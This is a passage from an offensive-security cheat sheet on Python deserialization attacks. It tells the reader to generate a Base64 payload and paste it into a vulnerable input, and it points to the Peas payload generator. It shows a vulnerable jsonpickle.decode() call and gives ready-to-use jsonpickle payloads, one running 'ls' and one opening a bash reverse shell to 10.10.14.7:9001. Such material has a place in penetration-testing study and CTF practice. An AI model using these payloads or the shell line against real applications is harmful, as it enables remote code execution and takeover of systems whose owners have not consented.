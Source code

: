 Run this script to generate the Base64 payload.

```bash
python3 gen_payload.py
```

Now, copy the output base64 string and paste it in the vulnerable input
{% endtab %}

{% tab title="Tools" %}
The tool [Peas](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) can be used to generate payloads. It create **serialized payload** for deserialization RCE attack on python driven applications where pickle ,**pyYAML**, **ruamel.yaml** or **jsonpickle** module is used for deserialization of serialized data.

```
python3 peas.py
```
{% endtab %}
{% endtabs %}

### Jsonpickle Deserialization

[Jsonpickle](https://jsonpickle.github.io/) is a python library for serializing any arbitrary object graph into JSON.

{% tabs %}
{% tab title="Enumerate" %}
With **jsonPickle** deserialization ,the following code is vulnerable to arbitrary code execution using the `jsonpickle.decode()` function without proper sanitization of the input.

```python
import jsonpickle
[...]
some_parameter = jsonpickle.decode(malicious)
```
{% endtab %}

{% tab title="Payloads" %}
If we controll some variables passed to the vulnerable function, we can inject arbitrary code. here are example of some payloads:

```bash
#Simple ls
{"py/reduce": [{"py/type": "subprocess.Popen"}, {"py/tuple": [{"py/tuple": ["ls"]}]}]}

#Reverse Shell
{"py/reduce": [{"py/type": "subprocess.Popen"}, {"py/tuple": [{"py/tuple": ["/bin/bash", "-i", ">&", "/dev/tcp/10.10.14.7/9001", "0>&1"]}]}]}
```
{% endtab %}

{% tab title="Tools" %}
The tool [Peas](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) can be used to generate payloads. It create **serialized payload** for deserialization RCE attack on python driven applications where pickle ,**pyYAML**, **ruamel.yaml** or **jsonpickle** module is used for deserialization of serialized data.
